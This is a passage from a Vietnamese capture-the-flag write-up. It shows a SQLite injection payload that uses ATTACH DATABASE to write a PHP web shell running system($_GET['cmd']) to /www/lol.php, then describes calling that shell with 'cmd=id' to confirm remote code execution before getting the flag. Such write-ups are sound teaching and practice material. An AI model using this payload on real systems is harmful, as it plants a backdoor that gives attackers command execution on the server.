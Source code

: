 → Hoàn toàn có quyền ghi

Thực hiện tạo payload như sau:

```sql
127.0.0.1',''); ATTACH DATABASE '/www/lol.php' AS lol; CREATE TABLE lol.pwn (dataz text); INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET['cmd']); ?>");-- 
```

![](../../attachments/Pasted%20image%2020220727125317.png)

Thực hiện truy cập đến endpoint `/lol.php` và nhập parameter `cmd` với giá trị mong muốn, ở đây mình nhập `id` để kiểm tra.

![](../../attachments/Pasted%20image%2020220727125345.png)

→ Okay, đã RCE thành công. 

## `👽` Get Flag 
Tiến hành lấy `flag` thôi

![](../../attachments/Pasted%20image%2020220727125426.png)
